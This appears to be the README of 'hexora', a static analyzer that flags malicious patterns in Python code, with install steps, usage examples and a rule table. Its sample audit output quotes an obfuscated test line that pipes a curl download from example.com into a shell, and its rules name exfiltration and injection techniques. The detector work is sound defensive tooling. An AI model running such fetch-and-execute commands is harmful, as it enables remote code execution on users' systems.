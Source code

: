 # hexora

Hexora is a static analysis tool designed to detect malicious and harmful patterns in Python code.

It can be used to:

- Audit project dependencies to catch potential supply-chain attacks
- Detect malicious scripts found on platforms like Pastebin, GitHub, or open directories
- Analyze IoC files from past security incidents
- Audit new packages uploaded to PyPi.


<img width="600" alt="Hexora example" src="docs/example.gif">


# Examples

For output examples, please see [docs/examples.md](docs/examples.md) file.

# Installation

## Using Python

Requires Python 3.9+.

```bash
pip install hexora
```

Using uv:
```bash
uv tool install hexora
```

# Usage


```bash
hexora --help
```

## Audit single file

```bash 
>  hexora audit test.py

warning[HX2000]: Reading from the clipboard can be used to exfiltrate sensitive data.
  ┌─ resources/test/test.py:3:8
  │
1 │ import pyperclip
2 │
3 │ data = pyperclip.paste()
  │        ^^^^^^^^^^^^^^^^^ HX2000
  │
  = Confidence: High
    Help: Clipboard access can be used to exfiltrate sensitive data such as passwords and keys.
    
warning[HX3000]: Possible execution of unwanted code
   ┌─ resources/test/test.py:20:1
   │
19 │ (_ceil, _random, Math,), Run, (Floor, _frame, _divide) = (exec, str, tuple), map, (ord, globals, eval)
20 │ _ceil("import subprocess;subprocess.call(['curl -fsSL https://example.com/b.sh | sh'])")
   │ ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^ HX3000
   │
```


## Audit directory

```bash
hexora audit --output-format terminal resources/test/
```


## Audit packages from virtual environment

```bash
hexora audit --exclude HX5020,HX5030,HX5040,HX5050,HX5060 --min-confidence high .venv/lib/python3.11/site-packages/ 
```

Where `python3.11` is the version of the Python in virtual environment.

Tips:

- Use `--exclude` to suppress certain rule codes (e.g., noisy imports) for a given run
- Use `--min-confidence` to focus on high-confidence findings only.

Confidence indicates how a certain piece of code is malicious.
Some libraries or code snippets are used for legit purposes, and it's hard to distinguish legit use-cases from 
malicious ones.
That's why some matches have a low confidence level.

## Usage in Python

```python
>>> import hexora
>>> results = hexora.audit_path("/Projects/hexora/resources/test/")
>>> len(results)
15
>>> results[0]
{'items': [{'confidence': 'low',
            'description': 'pyperclip can be used to copy and paste data from '
                           'the clipboard.',
            'label': 'pyperclip',
            'location': (7, 16),
            'rule': 'HX5010'},
           {'confidence': 'high',
            'description': 'Reading from the clipboard can be used to '
                           'exfiltrate sensitive data.',
            'label': 'pyperclip.paste',
            'location': (25, 42),
            'rule': 'HX2000'}],
 'path': '/Projects/hexora/resources/test/clipboard_01.py'}
>>> # Single file audit
>>> result = hexora.audit_file("/Projects/hexora/resources/test/clipboard_01.py")
>>> ...
 ```

## Available rules

New rules are added regularly.

Right now, the following rules are available:
| Code | Name | Description |
|---|---|---|
| HX1000 | AppEnumeration | Suspicious application enumeration. |
| HX1010 | BrowserEnumeration | Suspicious browser enumeration (apps, cookies, history, etc.). |
| HX1020 | PathEnumeration | Suspicious path enumeration. |
| HX2000 | ClipboardRead | Reading from the clipboard. |
| HX2010 | EnvAccess | Access to a sensitive environment variable. |
| HX3000 | CodeExec | Possible code execution. |
| HX3010 | ShellExec | Execution of a shell command. |
| HX3020 | DunderShellExec | Execution of a shell command via `__import__`. |
| HX3030 | DunderCodeExec | Execution of code via `__import__`. |
| HX3040 | DLLInjection | Possible DLL injection. |
| HX3050 | CurlWgetExec | Execution of curl or wget in shell command. |
| HX4000 | ObfuscateShellExec | Execution of an obfuscated shell command. |
| HX4010 | ObfuscatedCodeExec | Execution of obfuscated code. |
| HX4020 | ObfuscatedDunderShellExec | Execution of an obfuscated shell command via `__import__`. |
| HX4030 | ObfuscatedDunderCodeExec | Execution of obfuscated code via `__import__`. |
| HX5000 | DunderImport | Suspicious use of `__import__`. |
| HX5010 | SuspiciousImport | Suspicious import. |
| HX5020 | CtypesImport | Suspicious ctypes import. |
| HX5030 | PickleImport | Suspicious pickle import. |
| HX5040 | StructImport | Suspicious struct import. |
| HX5050 | SocketImport | Suspicious socket import. |
| HX5060 | MarshalImport | Suspicious marshal import. |
| HX6000 | Base64String | Long Base64-encoded string detected; possible code obfuscation. |
| HX6010 | HexedLiterals | List of hex-encoded literals detected; possible payload. |
| HX6020 | HexedString | Long hex-encoded string detected; possible payload. |
| HX6030 | IntLiterals | Large list of integer literals detected; possible code obfuscation. |
| HX6040 | CVEInLiteral | Literal contains a CVE identifier. |
| HX6050 | SuspiciousLiteral | Suspicious literal detected; possible data enumeration. |
| HX6060 | PathTraversal | Suspicious path traversal. |
| HX6070 | BrowserExtension | Enumeration of sensitive browser extensions. |
| HX6080 | WebHook | Suspicious webhook detected. Possible data exfiltration. |
| HX7000 | SuspiciousFunctionName | Suspicious function name. |
| HX7010 | SuspiciousParameterName | Suspicious parameter name. |
| HX7020 | SuspiciousVariable | Suspicious variable name. |
| HX8000 | BinaryDownload | Suspicious binary download. |
| HX8010 | BuiltinsVariable | Suspicious builtin variable usage. |
| HX8020 | SuspiciousComment | Suspicious comment. |


## Credits

For parsing, we use AST parser from [ruff](https://github.com/astral-sh/ruff/tree/main) library.
